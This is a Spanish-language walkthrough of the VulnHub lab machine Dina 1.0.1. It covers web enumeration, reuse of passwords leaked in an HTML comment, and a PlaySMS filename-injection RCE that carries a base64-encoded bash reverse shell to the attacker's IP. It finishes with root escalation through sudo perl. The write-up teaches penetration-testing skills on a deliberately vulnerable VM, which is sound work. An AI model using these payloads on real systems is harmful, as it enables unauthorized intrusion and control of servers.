



Resolución de la máquina Dina 1.0.1 de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 192.168.100.10
Nmap scan report for 192.168.100.10
PORT STATE SERVICE
80/tcp open http
Si damos un vistazo a la web encontramos esto
Buscando directorios podemos ver secure y nothing entre otros
❯ gobuster dir -u 192.168.100.10 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://192.168.100.10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/tmp (Status: 301) [Size: 314] [--> http://192.168.100.10/tmp/]
/uploads (Status: 301) [Size: 318] [--> http://192.168.100.10/uploads/]
/nothing (Status: 301) [Size: 318] [--> http://192.168.100.10/nothing/]
/secure (Status: 301) [Size: 317] [--> http://192.168.100.10/secure/]
Si damos un vistazo con curl a nothing podemos ver lo que parecen ser contraseñas
❯ curl http://192.168.100.10/nothing/
<html>
<head><title>404 NOT FOUND</title></head>
<body>
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
<h1>NOT FOUND</html>
<h3>go back</h3>
</body>
</html>
Es el turno de secure, en este caso encontramos un .zip, asi que lo descargamos

Al descomprimir nos pide contraseña pero podemos reutilizar las encontradas en nothing
❯ 7z x backup.zip
Extracting archive: backup.zip
Enter password (will not be echoed): freedom
Everything is Ok
Size: 176
Compressed: 336
❯ ls
backup-cred.mp3 backup.zip
De primeras vemos un mp3, pero file nos dice que es un texto, si le damos un vistazo con cat encontramos un usuario para /SecreTSMSgatwayLogin
❯ file backup-cred.mp3
backup-cred.mp3: ASCII text
❯ cat backup-cred.mp3
I am not toooo smart in computer .......
dat the resoan i always choose easy password...
with creds backup file....
uname: touhid
password: ******
url : /SecreTSMSgatwayLogin
Reutilizando las contraseñas en nothing logramos iniciar sesión con "diana" como contraseña

Si buscamos vulnerabilidades para playsms encontramos una de RCE en sendfromfile
❯ searchsploit -x 42003.txt
<.......................................>
Code Execution using $filename if the user renames the file to
"<?php system('uname -a'); dia();?>.php"
the den server checks the file and sets some parameters
$filename="<? php system ('uname -a'); day();?>.php"
Podemos ejecutar php en el filename, entonces creamos uno con una reverse shell a nuestra ip
❯ echo "bash -i >& /dev/tcp/192.168.100.9/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC45LzQ0MyAwPiYxCg==
❯ touch "<?php shell_exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC45LzQ0MyAwPiYxCg== | base64 -d | bash'); ?>.php"
Creado el archivo, podemos subirlo en MyAccount|Send From File

Al darle a upload file, recibimos la shell en nuestro listener
❯ sudo netcat -lvnp 443
Connection received on 192.168.100.10
www-data@Dina:~/SecreTSMSgatwayLogin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Dina:~/SecreTSMSgatwayLogin$ hostname -I
192.168.100.10
www-data@Dina:~/SecreTSMSgatwayLogin$
Si miramos los sudoers encontramos que podemos ejecutar perl como root sin contraseña
www-data@Dina:~$ sudo -l
Matching Defaults entries for www-data on this host:
env_reset,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/bin
User www-data may run the following commands on this host:
(ALL) NOPASSWD: /usr/bin/perl
www-data@Dina:~$
En gtfobins encontramos un payload, ejecutamos su y nos convertimos en root
www-data@Dina:~$ sudo perl -e "exec 'su'"
root@Dina:/var/www# cd
root@Dina:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Dina:~# hostname -I
192.168.100.10
root@Dina:~# cat flag.txt
________ _________
\________\--------___ ___ ____----------/_________/
\_______\----\\\\\\ //_ _ \\ //////-------/________/
\______\----\\|| (( ~|~ ))) ||//------/________/
\_____\---\\ ((\ = / ))) //----/_____/
\____\--\_))) \ _)))---/____/
\__/ ((( (((_/
| -))) - ))
root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....
CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
root@Dina:~#